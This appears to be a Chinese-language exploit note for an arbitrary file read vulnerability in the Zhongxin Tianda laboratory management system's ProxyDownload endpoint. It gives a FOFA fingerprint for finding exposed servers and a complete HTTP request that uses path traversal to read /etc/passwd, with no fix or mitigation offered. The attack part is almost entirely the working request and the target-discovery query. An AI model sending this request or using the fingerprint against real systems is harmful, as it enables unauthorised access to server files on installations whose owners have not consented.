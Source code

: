 # 一、漏洞简介
中新天达实验室综合管理系统是整个实验室管理的基础平台，梳理并汇总全校的实验室基础数据，具体功能包括：实验室建制管理、实验室基本信息管理、实验队伍、成果管理、实验室用房、安全与环境管理、教学与工作量等.中新天达系统ProxyDownload存在任意文件读取漏洞。

# 二、影响版本
+ 中新天达实验室综合管理系统

# 三、资产测绘
+ fofa`body="aexp/ValidateImage"`
+ 特征

![](images/1727414734905-13612a77-a3e7-4c8a-9f7a-45ff0af1466e.png)

# 四、漏洞复现
```java
GET /aexp/ProxyDownload?path=/speedec/webapps/webftp/../../../../etc/passwd HTTP/1.1
Host: 
Priority: u=4
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```

![](images/1727414754400-c29e9658-99a1-4de7-8a5d-9e8cf25621b1.png)

